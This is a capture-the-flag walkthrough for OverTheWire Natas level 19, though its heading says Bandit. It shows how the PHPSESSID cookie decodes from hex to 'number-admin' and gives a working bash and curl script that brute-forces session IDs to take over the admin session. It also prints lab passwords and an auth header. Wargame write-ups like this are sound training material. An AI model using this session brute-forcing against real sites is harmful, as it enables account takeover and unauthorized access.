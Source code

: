# BANDIT LEVEL 19

```
http://overthewire.org/wargames/natas/natas19.html
```

```
Username: natas19
Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs
URL:      http://natas19.natas.labs.overthewire.org
```

<img src='index.jpg' width=500px>

### SOLUTION

There is no code for us to inspect this time through, only the hint that it
is "mostly the same" as the previous level except sessionIDs are no longer
sequential.

Hm.

#### COOKIE INSPECTION

Trial and error with username `admin` and password `foo`, we see the our
PHPSESSID cookie is set to `3232382d61646d696e`

<img src='cookie.jpg' width=500px>

Resending the same username/password combination gave us a different
PHPSESSID cookie of "38352d61646d696e", but the last 12 digits were the same
"2d61646d696e". Hm. Let's try generating a few more SESSION IDs with user admin
to see if we can derive a pattern..

```
3-23238-2d61646d696e
3-835-2d61646d696e
3-23938-2d61646d696e
3-13338-2d61646d696e
3-339-2d61646d696e
3-43930-2d61646d696e
3-33436-2d61646d696e
3-135-2d61646d696e
3-23838-2d61646d696e
3-533-2d61646d696e
3-63038-2d61646d696e
3-43231-2d61646d696e
3-33536-2d61646d696e
3-13033-2d61646d696e
3-13133-2d61646d696e
3-53438-2d61646d696e
```

So it seems that the SESSION ID always starts with 3 and has a random 3-5 digit
number before the fixed suffix.

Tried using a different username than `admin` results in a completely new
string for our PHPSESSID (well, except that it always seems to start with "3").
So, somehow our username seems to be incorporated into the SESSIONID and for
`admin` the last 12 digits of the sessionID should be `2d61646d696e`.

#### HEXADECIMAL

Tried feeding the SESSION ID into a hex-to-ascii conversion and finally got
the pattern of the SESSION ID:

```
3232382d61646d696e  228-admin	
38352d61646d696e    85-admin
3239382d61646d696e  298-admin
3133382d61646d696e  138-admin
33392d61646d696e    39-admin
3439302d61646d696e  490-admin
3334362d61646d696e  346-admin
31352d61646d696e    15-admin
3238382d61646d696e  228-admin
35332d61646d696e    53-admin
3630382d61646d696e  608-admin
3432312d61646d696e  421-admin
3335362d61646d696e  356-admin
3130332d61646d696e  103-admin
3131332d61646d696e  113-admin
3534382d61646d696e  548-admin
```

#### BRUTE FORCE

Well, let's cycle through all the sequences between `0-admin` and `640-admin`
(since we are assuming the same "max" range for session identifiers as in the
last level) for our SESSIONID variable and see what happens.

```
$ cat script.sh
#! /bin/bash

for SEQ in {0..640}
do
  # PHPSESSID is the hexadecimal representation of "randomnum-username"
  SESSIONSTR="${SEQ}-admin"
  SESSIONID="$(echo -n ${SESSIONSTR} | xxd -p)"
  echo "${SEQ}: ${SESSIONID}"

  curl --silent \
    'http://natas19.natas.labs.overthewire.org/index.php?debug' \
    -H 'Authorization: Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==' \
    -H "Cookie: PHPSESSID=${SESSIONID}" \
    --data 'username=admin&password=foo' \
    | grep "regular" >/dev/null

  if [ $? -ne 0 ]; then
    # if the string "regular user" is not present, that probably means we
    # found the admin session?
    break;
  fi
done
```

```
$ ./script.sh
0: 302d61646d696e
1: 312d61646d696e
2: 322d61646d696e

<...>

278: 3237382d61646d696e
279: 3237392d61646d696e
280: 3238302d61646d696e
281: 3238312d61646d696e
```

We stopped at #281.  Let's validate..

```
$ echo 3238312d61646d696e | xxd -r -p
281-admin
$ curl --silent 'http://natas19.natas.labs.overthewire.org/index.php?debug' -H 'Authorization: Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==' -H "Cookie: PHPSESSID=3238312d61646d696e" --data 'username=admin&password=foo'
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas19", "pass": "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs" };</script></head>
<body>
<h1>natas19</h1>
<div id="content">
<p>
<b>
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>
</p>
DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas20
Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF</pre></div>
</body>
</html>
```
